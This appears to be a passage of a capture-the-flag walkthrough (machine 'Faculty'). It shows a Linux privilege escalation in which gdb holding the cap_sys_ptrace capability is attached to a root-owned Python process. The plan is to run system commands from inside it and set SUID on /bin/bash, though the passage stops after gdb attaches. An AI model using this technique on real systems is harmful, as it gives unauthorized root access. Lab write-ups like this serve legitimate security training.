 Looks like only members of the `debug` group can execute `gdb` on this system. Let's dig into the binary and see if it has any special permissions or capabilities.

```sh
developer@faculty:/tmp$ getcap /usr/bin/gdb
getcap /usr/bin/gdb
/usr/bin/gdb = cap_sys_ptrace+ep
```

According to [Elastic](https://www.elastic.co/guide/en/security/current/privilege-escalation-via-gdb-cap-sys-ptrace.html), `gdb` with the `cap_sys_ptrace` capability can:

>Identifies instances where GDB (granted the CAP_SYS_PTRACE capability) is executed, after which the user’s access is elevated to UID/GID 0 (root). In Linux, the CAP_SYS_PTRACE capability grants a process the ability to use the ptrace system call, which is typically used for debugging and allows the process to trace and control other processes. Attackers may leverage this capability to hook and inject into a process that is running with root permissions in order to escalate their privileges to root.

### GDB + cap_sys_ptrace

After looking at the Elastic article, and some other articles found through Google, we should be able to find a process that has access to system commands. Once we attach, we should be able to call any system commands we'd like, and set the SUID permissions of `/bin/bash` to obtain a root shell.

#### Find a Process

Found a process running as `root` we can use using `ps auxww | grep root`:

`root         684  0.0  0.9  26896 18152 ?        Ss   16:39   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers`

#### Exploit

First, attach gdb to the process:

```sh
developer@faculty:/tmp$ gdb -q -p 684
Attaching to process 684
Reading symbols from /usr/bin/python3.8...
(No debugging symbols found in /usr/bin/python3.8)
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...
Reading symbols from /usr/lib/debug/.build-id/18/78e6b475720c7c51969e69ab2d276fae6d1dee.debug...
Reading symbols from /lib/x86_64-linux-gnu/libpthread.so.0...
Reading symbols from /usr/lib/debug/.build-id/7b/4536f41cdaa5888408e82d0836e33dcf436466.debug...
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Reading symbols from /lib/x86_64-linux-gnu/libdl.so.2...
Reading symbols from /usr/lib/debug/.build-id/c0/f40155b3f8bf8c494fa800f9ab197ebe20ed6e.debug...
Reading symbols from /lib/x86_64-linux-gnu/libutil.so.1...
Reading symbols from /usr/lib/debug/.build-id/4f/3ee75c38f09d6346de1e8eca0f8d8a41071d9f.debug...
Reading symbols from /lib/x86_64-linux-gnu/libm.so.6...
Reading symbols from /usr/lib/debug/.build-id/fe/91b4090ea04c1559ff71dd9290062776618891.debug...
Reading symbols from /lib/x86_64-linux-gnu/libexpat.so.1...
(No debugging symbols found in /lib/x86_64-linux-gnu/libexpat.so.1)
Reading symbols from /lib/x86_64-linux-gnu/libz.so.1...
(No debugging symbols found in /lib/x86_64-linux-gnu/libz.so.1)
Reading symbols from /lib64/ld-linux-x86-64.so.2...
Reading symbols from /usr/lib/debug/.build-id/45/87364908de169dec62ffa538170118c1c3a078.debug...
Reading symbols from /lib/x86_64-linux-gnu/libnss_files.so.2...
Reading symbols from /usr/lib/debug/.build-id/45/da81f0ac3660e3c3cb947c6244151d879ed9e8.debug...
Reading symbols from /usr/lib/python3.8/lib-dynload/_json.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3.8/lib-dynload/_json.cpython-38-x86_64-linux-gnu.so)
Reading symbols from /usr/lib/python3/dist-packages/gi/_gi.cpython-38-x86_64-linux-gnu.so...
(No debugging symbols found in /usr/lib/python3/dist-packages/gi/_gi.cpython-38-x86_64-linux-gnu.so)
Reading symbols from /lib/x86_64-linux-gnu/libglib-2.0.so.0...
(No debugging symbols found in /lib/x86_64-linux-gnu/libglib-2.0.so.0)
```
